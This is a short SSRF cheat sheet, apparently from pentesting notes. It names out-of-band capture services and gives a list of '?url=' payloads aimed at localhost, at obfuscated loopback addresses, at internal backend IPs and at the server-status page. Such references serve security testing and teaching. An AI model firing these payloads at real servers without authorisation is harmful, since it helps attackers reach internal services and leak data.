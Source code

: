 ```yaml
---
title: SSRF (Server-Side Request Forgery)
description: SSRF is a type of exploit where an attacker abuses the functionality of a server causing it to access or manipulate information in the realm of that server that would otherwise not be directly accessibleto the attacker. SSRF is an attack against a server.
tags:
    - Web
refs:
date: 2023-09-09
draft: false
---
```


## Capture Tools

If you want to capture the SSRF affections, there are some online tools available for capturing SSRF.

- **[Webhook.site](https://webhook.site/)**
- **[pingb.in](http://pingb.in/)**
- **[Ngrok](https://ngrok.com/)**
- **[interactsh](https://github.com/projectdiscovery/interactsh)**

    ```sh
    interactsh-client -v
    ```

Or we can simply open local web server if local machine accepts external requests.

```bash
python3 -m http.server 8000
```

<br />

## HTTP (http://)

We may be able to use another server in the target machine.  
For example, pass the localhost URL to the GET parameters.  
Also These are available in POST params.

```sh
# Localhost
?url=http://localhost/
?url=http://127.0.0.1/
?url=http://127.0.0.1:80/
?url=http://127.0.0.1:3000/
?url=http://127.0.0.1:8000/
?url=http://127.0.0.1:8080/
?url=http://0/
?url=http://2130706433/
?url=http://017700000001/
?url=http://127.1/
?url=http://127.0.0.1/test.php%00
?url=http://127.0.0.1/test.php\x00

# Backend URL (e.g. 192.168.0.x)
?url=http://192.168.0.23/
?url=http://192.168.0.23:80/
?url=http://192.168.0.23:3000/
?url=http://192.168.0.23:8000/
?url=http://192.168.0.23:8080/

# Server status
?url=http://localhost/server-status
```